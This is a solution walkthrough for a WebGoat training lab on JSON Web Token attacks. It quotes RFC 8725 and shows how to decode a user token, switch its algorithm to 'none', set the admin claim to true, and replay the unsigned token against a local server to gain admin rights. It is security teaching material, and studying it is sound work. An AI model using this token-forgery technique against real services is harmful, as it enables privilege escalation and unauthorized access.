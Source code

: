 === Solution

The idea behind this assignment is that you can manipulate the token which might cause the server to interpret the token differently. In the beginning when JWT libraries appeared they implemented the specification to the letter meaning that the library took the algorithm specified inside the header and tried to work with it.

[quote, https://tools.ietf.org/html/rfc8725#section-2.1]
____
Signed JSON Web Tokens carry an explicit indication of the signing
algorithm, in the form of the "alg" Header Parameter, to facilitate
cryptographic agility.  This, in conjunction with design flaws in
some libraries and applications, has led to several attacks:

* The algorithm can be changed to "none" by an attacker, and some
libraries would trust this value and "validate" the JWT without
checking any signature.

*  An "RS256" (RSA, 2048 bit) parameter value can be changed into
"HS256" (HMAC, SHA-256), and some libraries would try to validate
the signature using HMAC-SHA256 and using the RSA public key as
the HMAC shared secret (see [McLean] and [CVE-2015-9235]).

For mitigations, see Sections 3.1 and 3.2.
____

What basically happened was that libraries just parsed the token as it was given to them without validating what cryptographic operation was used during the creation of the token.

==== Solution

First note that we are logged in as `Guest` so first select a different user for example: Tom.
User Tom is allowed to vote as you can see, but he is unable to reset the votes. Looking at the request this will return an `access_token` in the response:

[source]
----
GET http://localhost:8080/WebGoat/JWT/votings/login?user=Tom HTTP/1.1

access_token=eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE2MDgxMjg1NjYsImFkbWluIjoiZmFsc2UiLCJ1c2VyIjoiVG9tIn0.rTSX6PSXqUoGUvQQDBiqX0re2BSt7s2-X6FPf34Qly9SMpqIUSP8jykedJbjOBNlM3_CTjgk1SvUv48Pz8zIzA
----

Decoding the token gives:

[source]
----
{
  "alg": "HS512"
}
{
  "iat": 1608128566,
  "admin": "false",
  "user": "Tom"
}
----

We can change the `admin` claim to `false` but then signature will become invalid. How do we end up with a valid signature?
Looking at the https://tools.ietf.org/html/rfc7519#section-6.1[RFC specification] `alg: none` is a valid choice and gives an unsecured JWT.
Let's change our token:

[source]
----
headers:

{
  "alg": "none"
}

claims:

{
  "iat": 1608128566,
  "admin": "true",
  "user": "Tom"
}
----

If we use WebWolf to create our token we get:

[source]
----
eyJhbGciOiJub25lIn0.ew0KICAiYWRtaW4iIDogInRydWUiLA0KICAiaWF0IiA6IDE2MDgxMjg1NjYsDQogICJ1c2VyIiA6ICJUb20iDQp9
----

Now we can replace the token in the cookie and perform the reset again. One thing to watch out for is to add a `.` at the end otherwise the token is not valid.



== References

For more information take a look at the following video:

video::wt3UixCiPfo[youtube, height=480, width=100%]



